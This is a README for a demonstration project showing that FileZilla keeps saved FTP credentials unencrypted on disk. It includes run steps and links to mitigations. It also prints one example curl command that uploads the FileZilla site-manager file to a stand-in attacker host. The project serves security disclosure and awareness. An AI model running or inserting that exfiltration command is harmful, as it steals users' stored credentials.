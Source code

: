 # Filezilla passwords revealer

This is a small script to demonstrate that the Filezilla credentials are stored **unencrypted** on the local drive and that any program, malware, or even node module running on your machine can trivially access them.  

A single bash command is enough! `curl -F "credentials=@~/.filezilla/sitemanager.xml" attacker.com/credentials.php
` reads the local preference file and uploads it to a remote website.

### Running

- Clone this repository
- `npm install`
- `node index.js`

Or simply copy paste this script in your terminal

```
git clone https://github.com/christophetd/filezilla-passwords-revealer.git
cd filezilla-passwords-revealer
npm install
node index.js
```

(Disclaimer: copy pasting bash commands in your terminal is a very bad practice security-wise)

### Resources

- « *[Making FileZilla FTP Client's passwords more secure with TrueCrypt](http://www.trailheadinteractive.com/making_filezilla_ftp_client039s_passwords_more_secure)* ». Note that you should use [VeraCrypt](https://veracrypt.codeplex.com/) instead of TrueCrypt since the latter is now deprecated.
- Some of the numerous feature requests on the official bug tracker : [#5530](https://trac.filezilla-project.org/ticket/5530), [#2935](https://trac.filezilla-project.org/ticket/2935), [#3176](https://trac.filezilla-project.org/ticket/3176)
